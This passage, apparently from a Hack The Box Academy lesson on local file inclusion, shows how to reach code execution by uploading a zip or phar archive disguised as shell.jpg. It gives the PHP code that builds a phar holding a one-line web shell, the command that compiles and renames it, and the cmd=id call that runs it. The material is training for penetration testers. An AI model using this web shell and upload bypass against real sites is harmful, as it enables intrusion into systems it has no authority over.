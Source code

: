             Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `\#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:
            
            [![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)
            
            As we can see, this method also works in executing commands through zipped PHP scripts.
            
            **Note:** We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.
            
              
            
              
            
              
            
            ## Phar Upload
            
            Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
            
            Code: php
            
            ```
            <?php
            $phar = new Phar('shell.phar');
            $phar->startBuffering();
            $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
            $phar->setStub('<?php __HALT_COMPILER(); ?>');
            
            $phar->stopBuffering();
            ```
            
            This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
            
            Uploaded File Path
            
            ```
            KareemAlsadeq@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
            ```
            
            Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:
            
            [![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)
            
            As we can see, the `id` command was successfully executed. Both the `zip` and `phar`  
            wrapper methods should be considered as alternative methods in case the  
            first method did not work, as the first method we discussed is the most  
            reliable among the three.
            
            **Note:** There is another (obsolete) LFI/uploads  
            attack worth noting, which occurs if file uploads is enabled in the PHP  
            configurations and the `phpinfo()` page is somehow exposed to  
            us. However, this attack is not very common, as it has very specific  
            requirements for it to work (LFI + uploads enabled + old PHP + exposed  
            phpinfo()). If you are interested in knowing more about it, you can  
            refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).
            
